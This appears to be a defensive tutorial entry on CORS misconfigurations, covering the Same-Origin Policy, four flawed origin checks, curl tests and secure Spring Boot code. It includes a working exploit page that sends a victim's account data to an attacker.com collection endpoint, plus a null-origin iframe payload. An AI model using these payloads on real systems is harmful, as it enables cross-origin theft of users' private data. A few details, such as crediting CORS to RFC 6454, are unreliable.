

⚡ TL;DR - CORS (Cross-Origin Resource Sharing) is a browser mechanism that
relaxes the Same-Origin Policy (SOP) to allow selected cross-origin requests.
The SOP blocks cross-origin reads by default. CORS misconfigurations - reflecting
arbitrary origins, trusting `null` origin, using overly broad wildcards with
credentials - allow attacker-controlled pages to read sensitive API responses
that should only be readable by the application's own origin. The impact:
cross-origin data theft (PII, session data, API responses). Key misconfigurations:
(1) Reflecting any request Origin back as ACAO header without validation,
(2) Trusting the null origin (exploited from sandboxed iframes), (3) Overly broad
`Access-Control-Allow-Origin: *` with sensitive endpoints (note: `*` cannot be
combined with `credentials: true` per spec, but subdomain wildcards bypass this).
Defense: explicit allowlist of trusted origins, never reflect arbitrary Origin,
use SameSite=Strict cookies, validate CORS with automated tooling.

---

| #092 | Category: Security | Difficulty: ★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, CSP, Authentication, Session Management, Secrets Management, IAM, TLS Configuration, OAuth 2.0 Security Best Practices, Business Logic Vulnerabilities, Advanced JWT Attacks, Advanced XSS | |
| **Used by:** | SSRF to Internal Exploitation, TLS Protocol Attacks, Responsible Disclosure, IR Process, AWS Security Services, DevSecOps Pipeline Design, SSDLC, Web Security Model Browser Architecture | |
| **Related:** | OWASP Top 10, CSP, Authentication, Session Management, IAM, TLS Configuration, Business Logic Vulnerabilities, Advanced JWT Attacks, Advanced XSS, SSRF, TLS Protocol Attacks, Web Security Model | |

---

### 🔥 The Problem This Solves

**WHY CORS EXISTS AND WHERE IT GOES WRONG:**

```
THE SAME-ORIGIN POLICY (SOP) PROBLEM:

  Browser default: Same-Origin Policy (SOP).
  SOP rule: JavaScript on origin A can READ responses from origin A only.
  
  Example (SOP without CORS):
    User visits: https://evil.com
    JavaScript on evil.com:
    
      fetch('https://api.mybank.com/account/balance', {credentials: 'include'});
      .then(r => r.json())
      .then(data => sendToAttacker(data));
    
    SOP behavior:
      Browser SENDS the request to mybank.com (with user's session cookie).
      Server PROCESSES and RESPONDS with account balance.
      Browser RECEIVES the response but BLOCKS JavaScript from reading it.
      
      The fetch() promise REJECTS with a network error.
      JavaScript cannot access the response body.
      Account balance NOT exfiltrated.
    
    SOP protects: cross-origin READS.
    SOP does NOT protect: cross-origin writes (forms, image loads, script loads).
    CSRF is NOT blocked by SOP: form submission to mybank.com works without CORS.

THE CORS RELAXATION AND HOW IT'S MISUSED:

  CORS allows a server to say: "I trust this foreign origin to read my responses."
  
  Legitimate use:
    api.mycompany.com trusts app.mycompany.com:
    Response header: Access-Control-Allow-Origin: https://app.mycompany.com
    Now JavaScript on app.mycompany.com CAN read responses from api.mycompany.com.
    
  MISCONFIGURATION 1: Reflecting any Origin
    
    Server code (WRONG):
    const origin = req.headers.origin;
    res.setHeader('Access-Control-Allow-Origin', origin);
    //              ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    //      Reflects whatever origin the request claims!
    //      No validation. Any origin is trusted.
    
    Attack:
    evil.com sends request with: Origin: https://evil.com
    Server responds: Access-Control-Allow-Origin: https://evil.com
    Browser: "Server trusts evil.com → allow JavaScript to read response."
    evil.com JavaScript reads the API response.
    
    IMPACT: Cross-origin data theft. Any origin can read any response.
    
  MISCONFIGURATION 2: Trusting null origin
    
    Some servers check: if origin == null → allow it.
    Reason: some older requests send null origin.
    
    ATTACK: sandboxed iframe.
    Attacker on evil.com:
    <iframe sandbox="allow-scripts" src="data:text/html,
      <script>
        fetch('https://api.victim.com/data', {credentials:'include'})
        .then(r => r.text())
        .then(d => parent.postMessage(d, '*'))
      </script>
    "></iframe>
    
    Sandboxed iframe's Origin header: null.
    Server trusts null → allows the read.
    iframe reads response → posts it to parent (evil.com) → data stolen.
    
  MISCONFIGURATION 3: Subdomain wildcards with user-controlled subdomains
    
    Config: trust any origin matching *.mycompany.com
    
    If users can create subdomains (e.g., user-provided subdomain for a SaaS):
    An attacker creates: attacker.mycompany.com
    
    API server: sees Origin: https://attacker.mycompany.com
    Regex: matches *.mycompany.com → TRUSTED.
    Access-Control-Allow-Origin: https://attacker.mycompany.com
    
    Attacker reads sensitive API responses from a user-controlled subdomain.
    
  MISCONFIGURATION 4: Prefix/suffix matching without proper anchoring
    
    Regex validation (WRONG):
    if (origin.includes('mycompany.com')) { allowOrigin(origin); }
    
    Attack: Origin: https://mycompany.com.evil.com
    Check: includes('mycompany.com') → TRUE.
    Access-Control-Allow-Origin: https://mycompany.com.evil.com → ALLOWED.
    
    Attacker registers: mycompany.com.evil.com → reads API responses.
```

---

### 📘 Textbook Definition

**Same-Origin Policy (SOP):** A browser security mechanism that prevents JavaScript
on one origin (scheme + host + port) from reading responses from a different origin.
The SOP blocks cross-origin reads by default. It does not block cross-origin writes
(form submissions, image loads, script loads, CSS loads).

**CORS (Cross-Origin Resource Sharing, RFC 6454):** A W3C specification that
allows servers to declare which foreign origins are permitted to read their responses.
The server adds the `Access-Control-Allow-Origin` header to specify trusted origins.
The browser enforces this: if the origin is in the header, JavaScript can read the response.
Without CORS: cross-origin reads are blocked by SOP.

**CORS preflight:** For non-simple requests (POST with application/json, PUT, DELETE,
custom headers), the browser first sends an OPTIONS request (preflight) to check
if the cross-origin request is allowed. The server responds with CORS headers.
If the preflight is approved, the browser sends the actual request.

**Credentialed CORS requests:** When `credentials: 'include'` is set in fetch(),
the browser includes cookies and Authorization headers in the cross-origin request.
For credentialed requests: `Access-Control-Allow-Origin` MUST be a specific origin
(not `*`), AND `Access-Control-Allow-Credentials: true` must be set.
A wildcard ACAO header (`*`) with credentials is explicitly rejected by the browser spec.

**CORS vs CSRF:** CORS protects against cross-origin READS (data theft).
CSRF protects against cross-origin WRITES (state-changing requests).
They are complementary - not redundant. CORS cannot prevent CSRF and vice versa.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
CORS misconfiguration lets attacker-controlled websites read your API responses
(including session data, PII, and tokens) by tricking the browser into thinking
the attacker's origin is trusted by your server.

**One analogy:**
> SOP = the rule that you can only read your own mail.
>
> The post office (browser) delivers mail from anyone to your address.
> But: you can only open and read mail with YOUR address on the return.
> Mail from a different return address: delivered, but you can't read it.
>
> CORS = you tell the post office: "I also trust mail from my_trusted_partner.com."
> Post office: "OK, you can open mail from that address too."
>
> CORS misconfiguration (reflecting any origin):
> The post office asks: "Who sent this?" You say: "Whoever's name is on the envelope."
> Attacker writes YOUR friend's name on their envelope.
> Post office: "This is from your trusted partner. Open it."
> Attacker's mail gets read as if it were trusted.
>
> Actual CORS misconfiguration (reversed):
> Your API server receives mail from attacker.com.
> Attacker.com claims a return address in the Origin header.
> Your server says: "I trust Origin: attacker.com" → ACAO: attacker.com.
> Browser: "Server trusts attacker.com. Let attacker.com read the response."
> Attacker's script reads your user's account data.

---

### 🔩 First Principles Explanation

**The four CORS headers:**

```
REQUEST HEADERS (from browser):
  Origin: https://app.mycompany.com
  (Browser adds this automatically. Can't be forged by JS on a page.)
  
RESPONSE HEADERS (from server):
  Access-Control-Allow-Origin: https://app.mycompany.com
  (ONLY this origin may read the response.)
  
  Access-Control-Allow-Credentials: true
  (Browser will send cookies on cross-origin credentialed requests.)
  
  Access-Control-Allow-Methods: GET, POST, PUT
  (Preflight: which methods are allowed for this cross-origin endpoint.)
  
  Access-Control-Allow-Headers: Content-Type, Authorization
  (Preflight: which request headers are allowed.)
  
BROWSER ENFORCEMENT RULES:
  1. ACAO: * with credentials:include → REJECTED by browser.
     "Wildcard with credentials is unsafe - explicit origin required."
     
  2. ACAO: https://app.mycompany.com → Only app.mycompany.com can read.
  
  3. No ACAO header → browser blocks cross-origin read (SOP default).
  
  4. ACAC: true + specific ACAO → cookies/headers included, origin can read.

MISCONFIGURATION DETECTION:
  Test: Send request with Origin: https://evil.com
  Check response: is Access-Control-Allow-Origin: https://evil.com ?
  Yes → vulnerable (server reflects arbitrary origin).
  
  Test: Send with Origin: null
  Check: ACAO: null ?
  Yes → vulnerable (null origin trusted).
  
  Test: Send with Origin: https://notmycompany.com.evil.com
  Check: ACAO: https://notmycompany.com.evil.com ?
  Yes → vulnerable (suffix matching without proper anchoring).
```

---

### 🧪 Thought Experiment

**SCENARIO: Exploiting CORS misconfiguration in a banking app:**

```
TARGET: https://api.mybank.com/v1/account/balance
AUTHENTICATED: user has session cookie (HttpOnly, Secure)
VULNERABILITY: server reflects any Origin in ACAO header

EXPLOIT PAGE (hosted on https://attacker.com/exploit.html):

<!DOCTYPE html>
<html>
<body>
<script>
// STEP 1: Send cross-origin request with credentials (user's session cookie)
fetch('https://api.mybank.com/v1/account/balance', {
    method: 'GET',
    credentials: 'include',  // Send user's session cookie!
    headers: {
        'Content-Type': 'application/json',
    }
})
.then(response => {
    if (!response.ok) throw new Error('Request failed');
    return response.json();
})
.then(data => {
    // STEP 2: Exfiltrate the user's account balance
    const stolen = JSON.stringify(data);
    // Send to attacker's collection server:
    fetch('https://attacker.com/collect', {
        method: 'POST',
        body: stolen,
    });
    // OR: display as "proof" in a phishing page
})
.catch(err => console.log('Attack failed:', err));
</script>
<p>Loading your exclusive offer...</p>
</body>
</html>

WHAT HAPPENS:
1. Victim is logged into mybank.com (has session cookie in browser).
2. Victim visits attacker.com/exploit.html (phishing email, malvertising).
3. Browser sends request to api.mybank.com WITH victim's session cookie.
4. Server processes: "authenticated request for balance" → responds with balance.
5. Server reflects Origin: Access-Control-Allow-Origin: https://attacker.com
   Access-Control-Allow-Credentials: true
6. Browser: "Server trusts attacker.com, credentials are allowed." → JavaScript reads response.
7. JavaScript sends account balance to attacker.com/collect.
8. Attacker has victim's account balance, account number, transaction history.

WHAT THE VICTIM SEES: A blank or fake loading page.
WHAT THE ATTACKER RECEIVES: Complete account data.

HOW SERVER REFLECTED THE ORIGIN (VULNERABLE CODE):

  // Express.js (Node.js) - WRONG:
  app.use((req, res, next) => {
      const origin = req.headers.origin;
      if (origin) {
          // BAD: unconditionally reflects any origin
          res.header('Access-Control-Allow-Origin', origin);
          res.header('Access-Control-Allow-Credentials', 'true');
      }
      next();
  });
```

---

### 🧠 Mental Model / Analogy

> SOP = the default state: your web browser will only let JavaScript read
> responses from the same origin the page came from.
>
> Think of it as: you borrowed someone's car (the browser).
> By default, you can only use it on your street (same origin).
> You cannot drive to other neighborhoods and bring back their mail.
>
> CORS = you (api.mycompany.com) give the car a "permit" to visit
> specific neighborhoods: "This car may pick up deliveries from app.mycompany.com."
>
> CORS misconfiguration = your permit says:
> "This car may pick up deliveries from WHEREVER IT SAYS IT'S FROM."
> Attacker car says: "I'm from the bank's own neighborhood."
> Your permit grants it access.
> Attacker drives off with your data.
>
> The correct permit: "This car may pick up deliveries ONLY from
> app.mycompany.com - exact match, no wildcards."
> And the permit is verified by checking against a pre-registered list
> (not by trusting what the car claims).
>
> KEY INSIGHT: The Origin header is a browser-controlled signal, not
> a user-controlled one. Browsers don't let JavaScript forge the Origin header.
> But: any server or tool (curl, Postman, Burp) can set Origin to anything.
> CORS is a browser security mechanism, not a server authentication mechanism.
> CORS controls what a web browser allows JavaScript to READ.
> It does not prevent server-to-server requests from reading responses.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
CORS controls which websites can read your API's responses when a web browser makes the request. A CORS misconfiguration makes your API say "any website can read my responses" - which lets an attacker's website read your users' private data while they're logged in.

**Level 2 - How to use it (junior developer):**
Never copy the `Origin` header from the request into the `Access-Control-Allow-Origin` response header without validation. Maintain an explicit allowlist of trusted origins. Never trust the `null` origin. If using credentials (`credentials: 'include'`), ACAO must be a specific origin (not `*`). Spring Boot: `@CrossOrigin(origins = {"https://app.mycompany.com"})` - always specify explicit origins, never use `*` for authenticated endpoints.

**Level 3 - How it works (mid-level engineer):**
Browser SOP: blocks cross-origin reads. CORS: server response headers tell the browser which origins are trusted. Browser reads ACAO header - if requesting origin matches: allows JavaScript to read response. If CORS server code does `res.setHeader('ACAO', req.headers.origin)`: reflects any origin → any origin can read. Combined with `ACAC: true`: cookies are included in the cross-origin request. Attack: victim logs into bank, visits evil.com, evil.com's fetch reads bank API response with victim's cookies. CORS distinction from CSRF: CORS is about reading responses (data theft), CSRF is about submitting requests (state change). Both require separate defenses: CORS (origin allowlist), CSRF (SameSite cookies, CSRF tokens).

**Level 4 - Why it was designed this way (senior/staff):**
The SOP was designed in 1995 (Netscape Navigator 2) to prevent cross-origin script access. CORS (W3C, 2004-2014) was added because legitimate cross-origin API access became necessary as web apps evolved beyond single-origin. The CORS specification deliberately prevents wildcard ACAO with credentials (`*` + `credentials: true`) because that would be equivalent to no SOP at all. However: the `null` origin trust is a design mistake in many implementations (legacy behavior). The `credentials: 'include'` mode requires explicit origin by spec - this is intentional. The common source of CORS misconfig: developers copy code from Stack Overflow or tutorials that use permissive CORS for development and deploy it to production. The correct production CORS implementation uses environment-specific origin allowlists loaded from configuration.

**Level 5 - Mastery (distinguished engineer):**
CORS and the browser's Fetch standard: the browser's CORS enforcement is in the Fetch algorithm. The Fetch specification (WHATWG) defines exactly when CORS headers are required and how they're validated. `no-cors` mode: the browser sends the request but gives JavaScript a "opaque" response (no access to body, status, or headers). Used for resource loading where readability is not required (images, fonts). A CORS misconfiguration can only be exploited when JavaScript needs to READ the response - form-based CSRF attacks don't require CORS. Cross-site isolation (COOP + COEP): Chrome's cross-origin isolation - `Cross-Origin-Opener-Policy: same-origin` + `Cross-Origin-Embedder-Policy: require-corp` - enables `SharedArrayBuffer` and high-resolution timers, but also provides stronger cross-origin isolation for Spectre mitigation. CORP (Cross-Origin-Resource-Policy): complementary to CORS for non-script resources (`Cross-Origin-Resource-Policy: same-origin` prevents other origins from loading the resource even without JavaScript). CORP + COEP together prevent resource embedding from foreign origins.

---

### ⚙️ How It Works (Mechanism)

```
CORS REQUEST FLOW:

  CASE 1: Simple request (GET, POST with form data, no custom headers)
    
    Browser        evil.com         api.mybank.com
       |               |                  |
       |   user visits evil.com           |
       |<──────────────|                  |
       |               |                  |
       | evil.com JS executes fetch():     |
       |               |  GET /account    |
       |               |  Origin: https://evil.com
       |               |──────────────────>
       |               |                  |
       |               |  200 OK          |
       |               |  ACAO: https://evil.com (MISCONFIGURED!)
       |               |  ACAC: true
       |               |  {"balance": 50000}
       |               |<──────────────────
       |               |                  |
       | Browser checks ACAO header:      |
       | evil.com matches ACAO: evil.com  |
       | → ALLOWS JS to read response     |
       |               |                  |
       | evil.com JS reads balance: 50000 |
       | Sends to attacker server: POST   |
       |               |                  |
  
  CASE 2: Preflight (non-simple request)
    
    Browser sends OPTIONS first:
    OPTIONS /account
    Origin: https://evil.com
    Access-Control-Request-Method: PUT
    Access-Control-Request-Headers: Content-Type, X-Custom-Header
    
    Server responds (if misconfigured):
    Access-Control-Allow-Origin: https://evil.com
    Access-Control-Allow-Methods: GET, POST, PUT, DELETE
    Access-Control-Allow-Headers: Content-Type, X-Custom-Header
    Access-Control-Max-Age: 86400
    
    Browser: preflight approved → sends actual PUT request.
```



---

### 💻 Code Example

**Secure CORS configuration (Spring Boot Java):**

```java
// WRONG: Permissive CORS - reflects any origin
@Configuration
public class CorsConfig_BAD implements WebMvcConfigurer {
    
    @Override
    public void addCorsMappings(CorsRegistry registry) {
        registry.addMapping("/api/**")
            // BAD: wildcard allows any origin to read responses
            .allowedOrigins("*")
            // BAD: combined with allowCredentials(true) is actually blocked
            // by the browser spec for *, but some implementations use
            // allowedOriginPatterns("*") to bypass this check!
            .allowCredentials(true)
            .allowedMethods("GET", "POST", "PUT", "DELETE");
        // Result: any origin can make credentialed cross-origin requests.
    }
}

// CORRECT: Explicit allowlist from configuration
@Configuration
public class CorsConfig_GOOD implements WebMvcConfigurer {
    
    // Load from environment-specific configuration:
    @Value("${cors.allowed-origins}")
    private List<String> allowedOrigins;
    // Production config: ["https://app.mycompany.com"]
    // Staging config: ["https://staging.mycompany.com"]
    // Development: ["http://localhost:3000"]
    // NEVER: ["*"] for authenticated endpoints
    
    @Override
    public void addCorsMappings(CorsRegistry registry) {
        registry.addMapping("/api/**")
            // CORRECT: explicit list of trusted origins only
            .allowedOrigins(allowedOrigins.toArray(String[]::new))
            // CORRECT: credentials allowed only with explicit origins
            .allowCredentials(true)
            .allowedMethods("GET", "POST", "PUT", "DELETE")
            .allowedHeaders("Content-Type", "Authorization")
            // Cache preflight for 1 hour:
            .maxAge(3600);
    }
}

// CORRECT: Manual CORS validation (without Spring WebMvcConfigurer)
@Component
public class CorsFilter implements Filter {
    
    // Exact set of trusted origins (from config, not hardcoded):
    private static final Set<String> TRUSTED_ORIGINS = Set.of(
        "https://app.mycompany.com",
        "https://admin.mycompany.com"
    );
    
    @Override
    public void doFilter(ServletRequest req, ServletResponse res,
                         FilterChain chain)
                         throws IOException, ServletException {
        
        HttpServletRequest request = (HttpServletRequest) req;
        HttpServletResponse response = (HttpServletResponse) res;
        
        String origin = request.getHeader("Origin");
        
        if (origin != null) {
            // CORRECT: exact match against allowlist
            // WRONG: origin.contains("mycompany.com") - bypass via suffix
            // WRONG: origin.startsWith("https://") - still too permissive
            if (TRUSTED_ORIGINS.contains(origin)) {
                // Only set ACAO if origin is in the allowlist:
                response.setHeader("Access-Control-Allow-Origin", origin);
                response.setHeader("Access-Control-Allow-Credentials", "true");
                response.setHeader("Vary", "Origin");
                // Vary: Origin is required when ACAO varies per-request.
                // Prevents caching of wrong CORS headers.
            }
            // If not in allowlist: NO ACAO header → SOP blocks the read.
        }
        
        if ("OPTIONS".equalsIgnoreCase(request.getMethod())) {
            // Handle preflight:
            response.setHeader("Access-Control-Allow-Methods",
                "GET, POST, PUT, DELETE");
            response.setHeader("Access-Control-Allow-Headers",
                "Content-Type, Authorization");
            response.setHeader("Access-Control-Max-Age", "3600");
            response.setStatus(HttpServletResponse.SC_OK);
            return;
        }
        
        chain.doFilter(req, res);
    }
}
```

---

### ⚖️ Comparison Table

| Misconfiguration | Impact | Example | Fix |
|:---|:---|:---|:---|
| **Reflect any Origin** | Cross-origin data theft | `ACAO: req.headers.origin` | Explicit allowlist |
| **Wildcard + credentials** | Cross-origin data theft (some browsers) | `ACAO: * + ACAC: true` | Specific origin required |
| **null origin trusted** | Data theft via sandboxed iframe | `if origin == null: allow` | Never trust null origin |
| **Subdomain wildcard** | Subdomain takeover → data theft | `*.mycompany.com` | Exact subdomains only |
| **Prefix/suffix regex** | Bypass via crafted domain | `origin.includes('mycompany')` | Exact match only |
| **HTTP origin trusted** | HTTP downgrade attack | `http://app.mycompany.com` | HTTPS only in allowlist |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "CORS prevents CSRF attacks." | CORS and CSRF are different attack classes requiring different defenses. CORS controls cross-origin READS (whether JavaScript can access a response). CSRF is about cross-origin WRITES (submitting state-changing requests using the victim's session). A perfectly configured CORS policy does not prevent CSRF: a malicious form submission from evil.com to bank.com will still be sent with the user's session cookies. CSRF requires separate defenses: `SameSite=Strict` cookies, CSRF tokens, or checking the `Origin`/`Referer` header for state-changing requests. CORS does not protect against cross-site form submissions, image loads, or script loads - only JavaScript fetch/XHR reads. |
| "Access-Control-Allow-Origin: * is dangerous." | `ACAO: *` is NOT dangerous for truly public, unauthenticated resources (public APIs, public CDN assets, open data). Browsers BLOCK credentialed requests (`credentials: 'include'`) to wildcard ACAO by spec. The danger: using `*` for authenticated endpoints where users' personal data is returned based on session cookies. For truly public endpoints (no session, no user data): `ACAO: *` is correct. For authenticated endpoints: use specific, allowlisted origins. Also: some CORS implementations use `allowedOriginPatterns("*")` in Spring to permit wildcard WITH credentials - this bypasses the browser protection. |

---

### 🚨 Failure Modes & Diagnosis

**CORS misconfiguration testing:**

```
TESTING CORS CONFIGURATION:

  TOOL: curl, Burp Suite, corsy (Python tool)

  Test 1: Does server reflect arbitrary Origin?
  
    curl -s -o /dev/null -D - \
      -H "Origin: https://evil.com" \
      https://api.victim.com/api/user/profile
    
    Check response headers for:
      Access-Control-Allow-Origin: https://evil.com  → VULNERABLE
      Access-Control-Allow-Credentials: true          → exploitable
    
    VULNERABLE: attacker can read API responses from evil.com.
    SAFE: no ACAO header (or ACAO doesn't match evil.com).

  Test 2: Does server trust null origin?
  
    curl -s -o /dev/null -D - \
      -H "Origin: null" \
      https://api.victim.com/api/user/profile
    
    Check: ACAO: null → VULNERABLE (sandboxed iframe attack).

  Test 3: Suffix bypass
  
    curl -s -o /dev/null -D - \
      -H "Origin: https://victim.com.evil.com" \
      https://api.victim.com/api/user/profile
    
    Check: ACAO: https://victim.com.evil.com → VULNERABLE (regex bypass).

  Test 4: HTTP origin trust
  
    curl -s -o /dev/null -D - \
      -H "Origin: http://app.victim.com" \
      https://api.victim.com/api/user/profile
    
    Check: ACAO: http://app.victim.com → VULNERABLE (HTTP origin trusted).
    Attacker can MITM HTTP connection to app.victim.com and inject XSS.

  AUTOMATED SCANNING:
    # corsy: Python CORS misconfiguration scanner
    python3 corsy.py -u https://api.victim.com/api/user/profile \
      --headers "Cookie: session=validcookie"

  REMEDIATION CHECKLIST:
    [ ] Origin validation uses exact match against allowlist
    [ ] null origin rejected
    [ ] HTTP origins not trusted (HTTPS only)
    [ ] Subdomain wildcards not used for sensitive endpoints
    [ ] Vary: Origin header added when ACAO varies per-request
    [ ] Public endpoints: ACAO: * without credentials (acceptable)
    [ ] Authenticated endpoints: specific ACAO + no wildcard
    [ ] SameSite=Strict cookies add defense-in-depth against CSRF
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `OWASP Top 10` (SEC-001) - CORS falls under A05 Security Misconfiguration
- `Authentication` (SEC-013) - session management that CORS protects

**Builds on this:**
- `SSRF to Internal Exploitation` (SEC-093) - can be combined with CORS bypass
- `Web Security Model Browser Architecture` (SEC-135) - SOP/CORS deep dive

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ SOP DEFAULT   │ JS can only READ responses from same     │
│               │ origin. Cross-origin reads blocked.      │
├───────────────┼──────────────────────────────────────────┤
│ CORS PURPOSE  │ Server says "I trust these origins to    │
│               │ read my responses."                      │
├───────────────┼──────────────────────────────────────────┤
│ VULNS         │ Reflect any Origin → data theft          │
│               │ Trust null → iframe attack               │
│               │ Subdomain wildcard → subdomain takeover  │
├───────────────┼──────────────────────────────────────────┤
│ DEFENSE       │ Exact allowlist. Never reflect Origin.   │
│               │ Vary: Origin header when ACAO varies.    │
├───────────────┼──────────────────────────────────────────┤
│ CORS vs CSRF  │ CORS = read protection.                  │
│               │ CSRF = write protection.                 │
│               │ SameSite=Strict: protects both somewhat  │
├───────────────┼──────────────────────────────────────────┤
│ WILDCARD *    │ Safe for public APIs (no credentials).   │
│               │ NEVER for authenticated endpoints.       │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Trust must be established from a validated, server-controlled allowlist,
never from attacker-controlled input."
CORS misconfiguration is a specific instance of the general principle:
the server determines who to trust, not the client.
The reflective CORS vulnerability breaks this principle:
the client (via the Origin header) tells the server which origin to trust.
The server trusts whatever the client says.
This same principle violation appears in other attack classes:
- alg:none JWT: client tells server which algorithm to use for validation.
  Server uses whatever algorithm the client says.
- SQL injection: client input defines part of the SQL query structure.
  Database executes whatever structure the client provides.
- SSRF: client tells the server which URL to fetch.
  Server fetches whatever URL the client says.
- Open redirect: client tells the server where to redirect after login.
  Server redirects wherever the client says.
In all these cases: a parameter that should be server-defined (trusted config)
is instead taken from client-controlled input.
The pattern recognition skill: when you see code that takes an input value
and uses it to make a trust decision or security-relevant operation,
ask: "Should this value come from the client or from server-side configuration?"
If the answer is "server-side configuration" and the code uses client input:
that's a trust boundary violation.

---

### 💡 The Surprising Truth

The most severe CORS misconfiguration isn't the obvious `ACAO: *` with
credentials (blocked by browser spec). It's the implementation pattern
that arose specifically to WORK AROUND that browser protection:
`allowedOriginPatterns("*")` in Spring Framework.

Spring's `CorsConfiguration.allowedOrigins("*")` correctly refuses to set
`Access-Control-Allow-Credentials: true` when wildcard origin is used
(respecting the browser spec).

But Spring also offers `allowedOriginPatterns("*")` which uses regex matching
instead of strict string matching. When configured with pattern `*`, it matches
any origin and WILL set both `ACAO: <origin>` and `ACAC: true`.

This means: `allowedOriginPatterns("*")` with `allowCredentials(true)` is
effectively "trust any origin with credentials" - reflected CORS.

The Stack Overflow answer for "how to enable CORS with credentials in Spring Boot":
many developers, frustrated that `allowedOrigins("*")` refused to work with
credentials, switched to `allowedOriginPatterns("*")`. The feature that was
added to help developers bypass the complexity of specific-origin configuration
is functionally equivalent to the most dangerous CORS misconfiguration.

The lesson: when a framework adds a "workaround" for a security restriction,
understand WHY the restriction exists before using the workaround.
The browser spec blocked wildcard+credentials deliberately.
`allowedOriginPatterns("*")` sidesteps that browser protection server-side.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **EXPLAIN** why reflecting the Origin header is dangerous: any origin can read
   API responses by setting its own Origin header - the server trusts whatever
   origin the request claims.
2. **DISTINGUISH** CORS (read protection - prevents cross-origin JS reads) from
   CSRF (write protection - prevents cross-origin state-changing requests).
   CORS does NOT prevent CSRF; different defenses are needed for each.
3. **WRITE** a correct CORS configuration: explicit origin allowlist,
   no wildcard for authenticated endpoints, `Vary: Origin` header,
   null origin rejected.
4. **DESCRIBE** the null origin attack: sandboxed iframe sends `Origin: null`,
   server trusts null, iframe reads response, posts to parent page (attacker).

---

### 🎯 Interview Deep-Dive

**Q: What is CORS and how does CORS misconfiguration lead to data theft?
How would you configure CORS securely in a Spring Boot API?**

*Why they ask:* Tests browser security model understanding, API security,
and practical configuration ability. Common in backend, fullstack, security roles.

*Strong answer covers:*
- SOP (Same-Origin Policy): browser default - JS can only READ responses from same origin.
  Protects against cross-origin data theft. Does NOT protect against cross-origin form submission (CSRF).
- CORS: server response header `Access-Control-Allow-Origin` tells browser which foreign
  origins may read the response. Without ACAO: SOP blocks the read.
- Attack: server reflects any Origin (`res.setHeader('ACAO', req.origin)`)
  + `ACAC: true`. Attacker page: fetch victim API with `credentials: 'include'`.
  Browser sends request with victim's session cookie. Server trusts attacker origin.
  JavaScript reads account data. Data exfiltrated.
- null origin: sandboxed iframe (`<iframe sandbox="allow-scripts" src="data:...">`).
  Browser sends `Origin: null`. Server trusts null. iframe reads response.
- Spring Boot fix:
  `registry.addMapping("/api/**").allowedOrigins("https://app.mycompany.com").allowCredentials(true)`
  Load origins from configuration (not hardcoded). NEVER use `allowedOriginPatterns("*")` with credentials.
  Add `Vary: Origin` response header.
- CORS vs CSRF distinction: CORS = read protection (data theft). CSRF = write protection (state change).
  SameSite=Strict cookies provide CSRF defense independent of CORS.